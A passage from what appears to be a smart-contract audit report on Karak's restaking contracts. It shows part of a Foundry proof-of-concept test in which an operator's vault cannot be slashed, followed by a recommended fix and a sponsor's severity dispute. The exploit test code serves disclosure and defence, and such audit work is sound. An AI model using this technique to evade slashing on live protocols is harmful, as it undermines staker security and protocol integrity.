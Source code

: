 ```solidity
        Operator.QueuedStakeUpdate memory queuedStake = core.requestUpdateVaultStakeInDSS(stakeRequest);
        vm.warp(1718549030 + 10 days);
        core.finalizeUpdateVaultStakeInDSS(queuedStake);
        vm.stopPrank();
        
        vm.startPrank(address(dss));
        //Slash request 
        uint96[] memory slashPercentagesWad = new uint96[](1);
        slashPercentagesWad[0] = 10000000000000000000;
        address[] memory operatorVaults = new address[](1);
        operatorVaults[0] = address(unslashableVault);
        
        SlasherLib.SlashRequest memory slashingReq = SlasherLib.SlashRequest({
            operator: operator,
            slashPercentagesWad: slashPercentagesWad,
            vaults: operatorVaults
        });

        //Request and execute the slashing but revert
        SlasherLib.QueuedSlashing memory queuedSlashing = core.requestSlashing(slashingReq);
        vm.warp(1718549030 + 14 days);
        core.finalizeSlashing(queuedSlashing);
        
        vm.stopPrank();
    }
```

Add also this contract for the dss on the same file :

```solidity
    contract DSSContract {
        uint256 variable;
        constructor() {
            variable = 1;
        }
        function returnVariable() external view returns(uint256 _variable) {
            _variable = variable;
        }
    }
```

And execute the command: `forge test --mt test_createUnslashableVault -vvvvv`.

### Recommended Mitigation Steps

You can add a verified `slashingHandler` for ETH on the `Core` contract and verify the operator use the correct `slashStore` params on the `initialize()` function in the `NativeVault`, or on the `deployVaults()` for `NativeVault`.

**[dewpe (Karak) disputed and commented](https://github.com/code-423n4/2024-07-karak-findings/issues/55#issuecomment-2267609461):**
 > We think it should be re-classified to `med` because it's ultimately the DSS' responsibility to figure out which operators and vaults to take in via the `registrationHook.selector`.
